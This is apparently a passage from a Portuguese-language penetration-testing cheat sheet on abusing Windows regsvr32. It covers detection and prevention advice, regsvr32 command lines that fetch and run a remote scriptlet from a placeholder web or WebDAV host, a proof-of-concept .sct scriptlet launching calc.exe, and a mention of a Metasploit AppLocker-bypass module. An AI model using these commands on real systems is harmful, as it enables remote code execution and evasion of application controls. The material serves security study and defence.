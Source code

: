 ### Uso malicioso

Os hackers podem explorar o `regsvr32` para executar código malicioso no sistema comprometido. Eles podem criar uma DLL maliciosa e registrá-la usando o comando `regsvr32`. Quando a DLL é registrada, o código malicioso é executado automaticamente sempre que o sistema é reiniciado.

### Detecção e prevenção

Para detectar atividades maliciosas relacionadas ao `regsvr32`, é importante monitorar o registro do sistema em busca de alterações suspeitas. Além disso, é recomendável manter o sistema operacional e os aplicativos atualizados para evitar vulnerabilidades conhecidas que possam ser exploradas por hackers.

Para prevenir o uso malicioso do `regsvr32`, é importante restringir o acesso ao comando e garantir que apenas usuários confiáveis tenham permissão para registrarem DLLs no sistema. Além disso, é recomendável utilizar soluções de segurança, como antivírus e firewalls, para detectar e bloquear atividades maliciosas.
```bash
regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
```
Processo realizando chamada de rede: **regsvr32.exe**\
Carga gravada no disco: **cache local do IE**
```
regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
```
Processo realizando chamada de rede: **svchost.exe**\
Carga gravada no disco: **Cache local do cliente WebDAV**

**Detectado pelo Defender**

#### Regsvr32 -sct
```markup
<?XML version="1.0"?>
<!-- regsvr32 /u /n /s /i:http://webserver/regsvr32.sct scrobj.dll -->
<!-- regsvr32 /u /n /s /i:\\webdavserver\folder\regsvr32.sct scrobj.dll -->
<scriptlet>
<registration
progid="PoC"
classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
<script language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</registration>
</scriptlet>
```
#### **Regsvr32 - Metasploit**

O comando `regsvr32` é uma ferramenta do Windows que permite registrar e desregistrar bibliotecas de vínculo dinâmico (DLLs) e controles ActiveX no sistema operacional. No entanto, essa ferramenta também pode ser explorada por hackers para executar código malicioso no sistema alvo.

O Metasploit Framework, uma das ferramentas mais populares para testes de penetração, possui um módulo chamado `exploit/windows/local/regsvr32_applocker_bypass` que aproveita uma vulnerabilidade no `regsvr32` para contornar as restrições do AppLocker e executar payloads arbitrários.
